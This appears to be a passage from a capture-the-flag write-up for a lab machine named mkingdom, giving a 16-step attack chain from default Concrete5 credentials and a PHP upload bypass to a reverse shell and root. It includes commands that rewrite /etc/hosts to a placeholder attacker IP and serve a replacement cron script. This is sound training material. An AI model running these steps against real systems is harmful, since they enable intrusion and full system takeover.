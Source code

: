 ## 🎯 Attack Flow Diagram
```
1. Port Scan → Single HTTP port (80)
2. Directory Enum → /app directory discovery
3. CMS Identification → Concrete5 detected
4. Default Creds → admin:password
5. File Upload Bypass → Add PHP extension
6. Reverse Shell → www-data access
7. Config File → Database credentials (toad)
8. User Lateral → Switch to toad
9. Env Variables → pwd_token discovery
10. Token Decode → Mario's password
11. User Escalation → Switch to mario
12. LinPEAS → /etc/hosts writable
13. Process Monitor → Cronjob discovery
14. DNS Hijack → Redirect mkingdom.thm
15. Malicious Script → Replace counter.sh
16. Root Shell → Privilege escalation complete
```

## 🔧 Critical Configuration Points

### 📁 File Extension Bypass
```php
// Concrete5 file extension configuration
// Navigate to: System & Settings → Files → Allowed File Types
// Add: php, phtml, php3, php4, php5
```

### 🌐 HTTP Server Directory Structure
```bash
# Required directory structure for cronjob hijack
mkdir -p /tmp/server/app/castle/application/
cd /tmp/server
python3 -m http.server 85
```

### 🔧 /etc/hosts Manipulation
```bash
# Add redirect entry
echo "YOUR_ATTACKER_IP mkingdom.thm" >> /etc/hosts

# Verify modification
cat /etc/hosts
```

## ⚠️ Common Pitfalls

### 🚫 File Upload Issues
- **Extension filtering** - Try multiple PHP extensions
- **File permissions** - Ensure uploaded files are executable
- **Path discovery** - Find where uploaded files are stored
